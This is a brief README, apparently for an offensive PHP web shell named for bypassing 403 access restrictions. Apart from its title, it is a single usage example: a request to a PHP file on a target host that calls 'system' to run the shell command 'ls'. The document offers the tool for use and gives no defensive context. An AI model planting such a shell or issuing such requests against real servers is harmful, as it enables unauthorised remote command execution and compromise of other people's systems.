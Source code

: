# 403-bypass-shell-use-range-function

## Simple Usage
```
http://target.com/ecchi.php?a=system&ecchi=ls
```

